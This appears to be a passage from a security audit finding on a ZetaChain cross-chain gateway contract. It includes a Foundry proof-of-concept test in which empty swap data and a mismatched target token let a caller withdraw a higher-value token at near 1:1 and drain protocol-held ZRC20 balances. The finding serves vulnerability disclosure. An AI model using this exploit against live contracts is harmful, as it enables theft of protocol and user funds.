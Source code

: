 
### Impact

This can lead to major loss of funds from the protocol’s ZRC20 token balances, especially those intended for refunds. The attacker receives assets at favorable USD rates, causing imbalance.


### PoC

**note I am using a token difference here to show the impact  because the provided test suite has some issue with price conversion**

place this in `test/GatewayTransferNative.t.sol`  and run 
`forge test --mt test_IamOTI_badSwapdataofDoMIxSwap --fork-url https://zetachain-evm.blockpi.network/v1/rpc/public`
```solidity
function test_IamOTI_badSwapdataofDoMIxSwap() public {
    // Simulate production state: preload contract with ZRC20 balances
    token1Z.mint(address(gatewayTransferNative), 2000 ether); // token1Z = AVAX-ZRC (~$20)
    token2Z.mint(address(gatewayTransferNative), 2000 ether); // token2Z = ETH.ARB-ZRC (~$2300)

    uint256 amount = 100 ether;
    uint32 dstChainId = 421614; // Arbitrum Sepolia testnet chain ID

    // Construct the cross-chain message with a mismatched targetZRC20 and empty swapData
    address targetZRC20 = address(token2Z); // target is ETH.ARB-ZRC
    bytes memory sender = abi.encodePacked(user1);
    bytes memory receiver = abi.encodePacked(user2);
    bytes memory swapDataZ = ""; // ← this triggers the early return in _doMixSwap
    bytes memory contractAddress = abi.encodePacked(address(gatewaySendB));
    bytes memory fromTokenB = abi.encodePacked(address(token2B));
    bytes memory toTokenB = abi.encodePacked(address(token2B));
    bytes memory swapDataB = "";
    bytes memory accounts = "";

    // Encode the malicious message payload
    bytes memory message = encodeMessage(
        dstChainId,
        targetZRC20,
        sender,
        receiver,
        swapDataZ,
        contractAddress,
        abi.encodePacked(fromTokenB, toTokenB, swapDataB),
        accounts
    );

    // Execute the attack simulation
    vm.startPrank(user1);
    token1Z.approve(address(gatewayTransferNative), amount);
    gatewayTransferNative.withdrawToNativeChain(address(token1Z), amount, message);
    vm.stopPrank();

    // Validate balances
    assertEq(token1Z.balanceOf(user1), initialBalance - amount);
// it is almost 1:1 token2B.balanceOf(user2) is around 98.9e18 the different is the protocol fee and the gas fee
    assertApproxEqAbs(token2B.balanceOf(user2), amount, 1.2e18); 
}
```
#### Note 
the same issue exist in `GatewayCrossChain`
